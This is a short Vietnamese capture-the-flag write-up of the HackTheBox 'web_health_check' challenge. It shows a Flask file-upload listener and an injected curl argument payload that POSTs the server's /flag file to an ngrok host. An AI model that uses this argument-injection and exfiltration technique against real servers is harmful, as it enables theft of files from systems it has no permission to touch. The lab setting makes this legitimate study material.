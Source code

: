 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/1.png)

bài này cũng không khó
ta thấy rằng web này cho ta dùng __curl trong linux__ để crawl đến web khác, `escapeshellcmd($host)`  chặn quoutes.
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/3.png)
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/4.png)
<br />
nhưng  lệnh __curl__ trong linux có thể upload file đến một máy web khác bằng lệnh như sau __curl $url_attacker -X POST -F file=@@/file__ 
<br />
trong tệp __Dockerfile__ ta có thể thấy đường dẫn __/flag__
<br />
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/Untitled.png)

đầu tiên, chạy web để bắt file được gửi về, có thể sử dụng đoạn mã python sau
```from flask import Flask, request

app = Flask(__name__)

@app.route('/upload', methods = [ 'POST'])
def upload_file():
    if request.method == 'POST':
      f = request.files['file']
      f.save(f.filename)
      return 'file uploaded successfully'

if __name__ == '__main__':
   app.run(host="0.0.0.0",port=8888)
   ``` 
   
sau đó nhập payload này:  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/upload -X POST -F file=@/flag`
như vậy ta sẽ nhận tệp flag gửi về __HTB{curl_pwn4g3_3n_r0ut3!}__
<br /> dùng ngrok để tạo ra điểm truy cập cho chính máy của mình, ta sẽ có đoạn cái đường dẫn url này  ` http://2360-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io `

[source của bài này](https://github.com/magnetohvcs/ctf/raw/main/ctf-hackthebox/Auth0-CTF/web_health_check/src/web_health_check.zip)
